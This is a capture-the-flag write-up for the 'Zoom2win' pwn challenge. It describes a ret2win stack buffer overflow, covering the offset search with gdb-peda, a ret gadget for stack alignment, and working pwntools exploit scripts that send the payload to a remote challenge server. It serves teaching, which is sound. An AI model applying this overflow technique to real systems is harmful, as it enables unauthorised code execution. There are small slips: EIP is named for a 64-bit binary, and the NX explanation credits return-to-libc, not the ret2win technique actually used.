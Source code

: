 ```yaml
---
title: "KQ CTF - Zoom2win [ PWN ]"
date: 2022-02-27T18:29:07-05:00
draft: false
---
```


## __Introduction__

Let's start this challenge by looking at its description, and see what the author has to tell us about it.

![image](https://user-images.githubusercontent.com/88755387/139706301-4ac66425-bb4a-4dd8-8350-f01fe7d00cd2.png)


Okay, so we already know that this is a basic ret2win. Let's not waste any more time and start developing the script.

## __First steps__

Let's see what type of architecture it has because depending on whether it is x64 or x86_64 there are several modifications to be made in the final code.

![image](https://user-images.githubusercontent.com/88755387/139694975-1f9fcd31-b10f-43ff-807a-0fb33785d6eb.png)

Once we know that it is 64-bit let's run it and see what it's all about:

![image](https://user-images.githubusercontent.com/88755387/139695501-85b03a64-1ed4-4959-afe8-97adec7284fb.png)

We can see that when entering many characters, the binary breaks, so we are going to look for its offset in order to overwrite the EIP with the address needed to read the flag.

Before we continue with the offset search let's take a look at its protections to see what we have to deal with.

![image](https://user-images.githubusercontent.com/88755387/139698443-229e41ab-6627-4b29-b3bf-3e645e7d566a.png)

In this case, we see that we only have the NX enabled. This protection marks the stack as non-executable so that even if we can overwrite the EIP to point to our shell code the shell code will never execute. 

The return-to-libc attack circumvents this protection by overwriting the return address, not with an address pointing to our injected shell code but rather to a libc function call address.

## __Offset__

We are going to find the offset using gdb-peda which is a well known debugger in the Pwn world.

```bash
gdb-peda zoom2win
gdb-peda$ pattern create 60
gdb-peda$ r # run te program

[ Enter the created pattern ]

gdb-peda$ pattern offset AA0A # First characters of RSP register
# AA0A found at offset: 40
```

Once we know the offset we will find the function where the flag is located.

## __Flag address__

To find this address we will enter the `info functions` command inside the debugger:

![image](https://user-images.githubusercontent.com/88755387/139700183-0c59bd7e-2e78-4d9f-9841-7ebbc112379f.png)

## __Code development__

Once we have everything ready we are going to develop the script that will launch the flag. For them we will rely on the PwnTools library which will help us to make the operation much easier.

You can download PwnTools by clicking on the following [link](https://github.com/Gallopsled/pwntools).

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)
# elf = ELF('./zoom2win')
# s = process(elf.path)

payload = b'A'*40
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139702489-7c6eb174-3c36-4030-ba5d-506f4268cc5f.png)

This code won't work because we are dealing with a 64-bit binary and we need a return address. We need to jump to this ret address before jumping to the flag function to align the stack, which has to be a multiple of 16.

To find this address we will launch the following command and filter by the word `ret`.

```
ROPgadget --binary ./zoom2win --ropchain | grep ret
```

![image](https://user-images.githubusercontent.com/88755387/139703027-f829df79-6903-4fde-a7ed-653d3a992f63.png)

Once we have it we are going to add it to our code so that it returns the content of the flag.txt.

## __Final code__

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload)
s.interactive()
```

![image](https://user-images.githubusercontent.com/88755387/139703774-42574e3b-d233-4efc-9bfe-5b083c53849e.png)

That's what we were looking for :)

We can improve this code so that it only launches the flag without entering interactive mode. It can probably be improved in a thousand different ways, but I think this is good enough for this occasion.

```python
#!/usr/bin/python3
from pwn import *

s = remote('143.198.184.186', 5003)

payload = b'A'*40
payload += p64(0x40101a) # ROPgadget --binary ./zoom2win --ropchain
payload += p64(0x401196) # address to flag() function

s.sendline(payload) 
response = s.recvall()
print(response.decode())

print(re.search("(kqctf{.*?})",response.decode()))
```

![image](https://user-images.githubusercontent.com/88755387/139704228-3c968c21-d0cc-47db-9e45-e4ba43dca2e1.png)

I hope you liked the writeup! 